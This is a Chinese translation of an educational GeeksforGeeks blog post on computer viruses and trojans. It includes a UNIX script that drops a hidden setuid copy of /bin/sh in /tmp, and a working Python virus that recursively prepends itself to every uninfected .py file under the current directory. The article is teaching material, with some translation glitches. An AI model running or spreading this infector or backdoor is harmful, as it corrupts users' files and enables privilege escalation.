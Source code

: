 # 病毒——从新手到专业人士

> 原文:[https://www.geeksforgeeks.org/viruses-from-newbie-to-pro/](https://www.geeksforgeeks.org/viruses-from-newbie-to-pro/)

*注意:使用在线编译器在这里行不通。请安装 Python 2.7x 和 cv2，argparse 模块来实际尝试这个例子。*

嗨，朋友们！欢迎回来！在继续恶意逻辑之前，我请求你看一下这篇伟大的、信息丰富的文章[蠕虫、病毒和超越](https://www.geeksforgeeks.org/worms-viruses-and-beyond/)！！

现在，本文将更多地关注应用程序，而不是计算机病毒、蠕虫和特洛伊木马的理论。

*但是，请注意，本文仅用于教育目的。**本人绝不推广使用病毒、蠕虫或木马攻击计算机系统并造成损害。**T3】*

恶意逻辑是导致违反网站/程序/应用程序等安全策略的一组指令(基本上是一个程序)。

**UNIX 脚本**

```py
    cp /bin/sh /tmp/.xxsh
    chmod u+s,o+x /tmp/.xxsh
    rm ./ls
    ls $*

```

在这个例子中，我们假设。位于路径环境中，脚本名为 ls，位于目录中。

**分析脚本**

这个脚本创建了一个 UNIX Shell 的副本，它是执行这个程序的用户的 setuid。要理解 setuid 程序，我们首先需要了解用户身份在 UNIX 操作系统中是如何存储的。

在 UNIX 操作系统中，用户标识通常表示为 0 到 65，535 之间的整数。这个号码也被称为 UID(唯一识别号码)。现在，setuid 程序所做的是用所有者的 uid 而不是执行程序的第三方的 UID 来创建进程。这意味着，执行人将拥有所有者的权利……这本身就是一个可能的漏洞。

回到我们的脚本，因此创建了 UNIX shell 的 setuid 副本。稍后，删除该程序，然后执行正确的 ls 命令(用于列出当前工作目录中的文件和文件夹)。

**木马**

回到上一个脚本…假设有人(根)键入:

```py
    cp /bin/sh /tmp/.xxsh
    chmod o+s,w+x /tmp.xxsh

```

如果脚本是故意键入的，那么它将导致特洛伊木马。

**病毒–一种基本格式**

大多数计算机病毒遵循以下基本脚本:

```py
Beginvirus
if spread-condition TRUE then begin
    for the target files begin
       if target affected TRUE then begin
          Determine where to place virus instructions
          Copy the virus instructions
          Modify target to spread the virus later
       End if
    End for
End if
Perform some other instruction(s) //Optional
Go back to beginning
Endvirus

```

基本上，每种计算机病毒都有两个阶段——

1.  插入阶段——在这个阶段，病毒将自己插入目标体内。
2.  执行阶段——在这个阶段，病毒会执行一些动作。

让我们来看看 Python 中的一个真实病毒。现在这不是一个真正的病毒，它会导致文件损坏，系统文件删除等。**不过只是一种简单无害的病毒。**

```py
#!/usr/bin/python 
import os, datetime, inspect 
DATA_TO_INSERT = "GEEKSFORGEEKS"

#search for target files in path
def search(path):  
    filestoinfect = [] 
    filelist = os.listdir(path) 
    for filename in filelist: 

        #If it is a folder
        if os.path.isdir(path+"/"+filename):  
            filestoinfect.extend(search(path+"/"+filename)) 

        #If it is a python script -> Infect it    
        elif filename[-3:] == ".py":

            #default value
            infected = False  
            for line in open(path+"/"+filename): 
                if DATA_TO_INSERT in line: 
                    infected = True
                    break
            if infected == False: 
                filestoinfect.append(path+"/"+filename) 
    return filestoinfect 

#changes to be made in the target file 
def infect(filestoinfect): 
    target_file = inspect.currentframe().f_code.co_filename 
    virus = open(os.path.abspath(target_file)) 
    virusstring = "" 
    for i,line in enumerate(virus): 
        if i>=0 and i <41: 
            virusstring += line 
    virus.close 
    for fname in filestoinfect: 
        f = open(fname) 
        temp = f.read() 
        f.close() 
        f = open(fname,"w") 
        f.write(virusstring + temp) 
        f.close() 

#Not required actually        
def explode(): 
    if datetime.datetime.now().month == 4 and datetime.datetime.now().day == 1: 
            print ("HAPPY APRIL FOOL'S DAY!!")
filestoinfect = search(os.path.abspath("")) 
infect(filestoinfect) 
explode() 
```

现在，这是一个相当安全的病毒但是，基本格式和工作原理是一样的。

此外，还有各种类型的计算机病毒——引导区感染病毒、可执行感染病毒、多部分病毒、TSR 病毒、隐形病毒、加密病毒、多态病毒、宏病毒。

现在，我不再赘述，就讲到这里。那都是从我这边来的！

**关于作者:**

**维斯韦什·施里马里**是 BITS Pilani 的机械工程本科生。他满足了 [![vish](http://d1gjlxt8vb0knt.cloudfront.net//wp-content/uploads/vish-100x100.png)](http://d1gjlxt8vb0knt.cloudfront.net//wp-content/uploads/vish.png) 所有在他的分支机构中没有教授的要求——白帽黑客、网络安全操作员和前竞争性程序员。作为 Python 力量的坚定信仰者，他的大部分作品都是同一种语言。每当他除了编程、上课、看 CSI Cyber 之外有时间的时候，他都会去散步，默默地弹吉他。他的人生格言是——“享受你的生活，因为它值得享受！”

**如果你也想在这里展示你的博客，请查看[博客](http://geeksquiz.com/gblog/)在极客博客上的客座博文。**